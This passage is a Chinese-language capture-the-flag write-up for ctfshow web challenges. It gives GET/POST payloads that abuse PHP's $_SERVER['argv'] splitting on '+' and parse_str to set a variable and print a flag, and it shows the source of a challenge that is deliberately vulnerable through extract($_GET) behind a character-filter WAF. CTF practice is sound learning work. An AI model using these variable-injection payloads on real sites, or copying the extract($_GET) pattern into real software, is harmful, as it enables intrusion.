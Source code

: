 ```
```

与上题一样，这回多给几个payload

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

数组中用加号(加号在url中起到空格的作用)分隔`$a[1]`对应的就是`fl0g=flag_give_me`，所以下面这种也是可以的

```
get: a=1+2+fl0g=flag_give_me//加号在url中起到空格的作用
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[2])
```

```
<?php
$a=$_SERVER['argv'];
var_dump($a);

传入 a=1+fl0g=flag_give_me
结果如下
array(2) { [0]=> string(3) "a=1" [1]=> string(17) "fl0g=flag_give_me" }

```



### web127

```
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```
